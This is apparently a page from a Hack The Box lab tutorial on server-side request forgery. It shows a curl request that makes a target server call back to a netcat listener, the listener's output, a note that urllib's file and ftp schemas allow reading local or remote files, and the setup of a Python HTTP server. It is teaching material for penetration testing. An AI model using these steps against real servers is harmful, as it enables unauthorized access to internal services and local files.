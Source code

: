**Curl - Testing for SSRF**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 0
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 12:07:10 GMT
```

We will receive the following into our Netcat listener confirming the SSRF vulnerability via a request issued by the target server using [Python-urllib](https://docs.python.org/3.8/library/urllib.html):

**Netcat Listener - Confirming SSRF**

SSRF Exploitation Example

```shell-session
Connection received on <TARGET IP> 49852
GET / HTTP/1.1
Accept-Encoding: identity
Host: <VPN/TUN Adapter IP>:8080
User-Agent: Python-urllib/3.8
Connection: close
```

Reading the [Python-urllib](https://docs.python.org/3.8/library/urllib.html) documentation, we can see it supports `file`, `http` and `ftp` schemas. So, apart from issuing HTTP requests to other services on behalf of the target application, we can also read local files via the `file` schema and remote files using `ftp`.

We can test this functionality through the steps below:

1. Create a file called index.html

Code: html

```html
<html>
</body>
<a>SSRF</a>
<body>
<html>
```

2. Inside the directory where index.html is located, start an HTTP server using the following command

**Start Python HTTP Server**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ python3 -m http.server 9090
```
